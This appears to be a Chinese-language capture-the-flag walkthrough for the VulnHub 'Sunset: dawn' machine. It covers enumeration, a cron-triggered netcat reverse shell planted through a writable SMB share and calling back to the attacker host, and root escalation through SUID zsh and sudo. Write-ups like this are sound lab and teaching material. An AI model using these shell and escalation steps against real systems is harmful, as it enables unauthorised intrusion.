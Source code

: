 

# Sunset: dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```

![](./img/Sunset：dawn-01.png)

> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```

![](./img/Sunset：dawn-02.png)

![](./img/Sunset：dawn-03.png)

> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```

![](./img/Sunset：dawn-04.png)

> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```

![](./img/Sunset：dawn-05.png)

![](./img/Sunset：dawn-06.png)

> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		# 使用SMB访问ITDEPT目录
```

![](./img/Sunset：dawn-07.png)

> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```

![](./img/Sunset：dawn-08.png)

```
# 监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./img/Sunset：dawn-09.png)

![](./img/Sunset：dawn-10.png)

```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```

![](./img/Sunset：dawn-11.png)

![](./img/Sunset：dawn-13.png)

```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

![](./img/Sunset：dawn-12.png)